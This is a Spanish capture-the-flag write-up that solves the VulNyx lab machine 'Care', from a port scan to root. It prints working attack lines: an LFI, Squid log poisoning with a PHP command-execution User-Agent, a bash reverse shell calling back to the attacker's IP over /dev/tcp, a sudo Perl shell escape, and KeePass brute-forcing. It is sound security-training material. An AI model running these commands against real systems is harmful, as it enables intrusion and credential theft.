






## Introducción
El día de hoy veremos la maquina Care de la plataforma de VulNyx. Se trata de una maquina bastante interesante que aborda los siguientes conceptos:
- LFI (Local File Inclusion)
- Log Poisoning (Squid Proxy)
- Shell escape via sudo (Perl)
- KeePass database cracking


## Resolución

# Reconocimiento
Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:
```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 192.168.1.143 -oN puertos.txt
```
```bash
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzUvGOaZF4gJoYBGR4NrMZOj32x98uVDUQ0dY0RENRdIyokD8RvJG8g9g71aoh/20m4mcEEdSyp+eE9ABu1kwk=
|   256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPrNZ9AQg+cgX4w0wabsDTAVeo9/VWThsF5efc2OzsFo
80/tcp   open  http       syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: vCare Free Bootstrap Theme | webthemez
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.62 (Debian)
3128/tcp open  http-proxy syn-ack ttl 64 Squid http proxy 5.7
|_http-server-header: squid/5.7
```

Identificamos tres puertos abiertos: SSH (22), HTTP (80) y Squid Proxy (3128).
Al explorar el puerto 80, nos encontramos con una página web de lo que parece ser un servicio clínico.


Durante la navegación por las diferentes secciones, observamos que el sitio carga contenido mediante un parámetro GET en el script `page.php`.
```http
http://192.168.1.143/page.php?i=about.html
```
Esto nos hace sospechar de una posible vulnerabilidad de Local File Inclusion (LFI). Al probar con rutas del sistema, confirmamos la vulnerabilidad.


# Explotación
Recordando que el puerto 3128 ejecuta un servicio Squid Proxy, identificamos una oportunidad para realizar Log Poisoning. Esta técnica consiste en envenenar los logs del proxy inyectando código malicioso que posteriormente será interpretado al acceder a dichos logs mediante el LFI.
Primero, verificamos que los logs de Squid Proxy sean accesibles a través del LFI en la ruta `/var/log/squid/access.log`.


Confirmada la accesibilidad, procedemos a envenenar los logs. Utilizamos `curl` para enviar una petición a través del proxy Squid con un User-Agent malicioso que contiene código PHP:
```bash
curl -x "192.168.1.143:3128" "http://127.0.0.1" -A '<?php system($_GET["cmd"]); ?>'
```
El código inyectado quedará registrado en los logs. Al acceder nuevamente a través del LFI, podemos ejecutar comandos del sistema mediante el parámetro cmd:


Con la ejecución remota de comandos confirmada, procedemos a enviarnos una reverse shell:
```http
http://192.168.1.143/page.php?i=/var/log/squid/access.log&cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.194/9001 0>%261"
```
Obtenemos acceso al sistema como el usuario `www-data`.

# Movimiento lateral (www-data => dorian)
Durante la enumeración del sistema, ejecutamos `sudo -l` y descubrimos que podemos ejecutar `/usr/bin/perl` como el usuario dorian sin necesidad de contraseña.
Aprovechamos este permiso para escalar privilegios a dorian utilizando Perl para ejecutar una shell:
```
sudo -u dorian perl -e 'exec "/bin/sh"'
```


# Escalada de privilegios
En el directorio `/home/dorian`, identificamos un directorio oculto llamado `.bak`. Dentro del mismo, encontramos un archivo denominado `data.txt`. Al inspeccionar el archivo con el comando `file`, confirmamos que se trata de una base de datos KeePass.

Para descifrar el archivo KeePass, utilizamos la herramienta `keepass4brute` (https://github.com/r3nt0n/keepass4brute) junto con el diccionario `rockyou.txt`:
```bash
bash keepass4brute.sh data.txt /usr/share/wordlists/rockyou.txt
```



Con la contraseña obtenida, abrimos la base de datos `KeePass`


Finalmente, utilizamos la contraseña para autenticarnos como root:


Ya somos root! 🎉
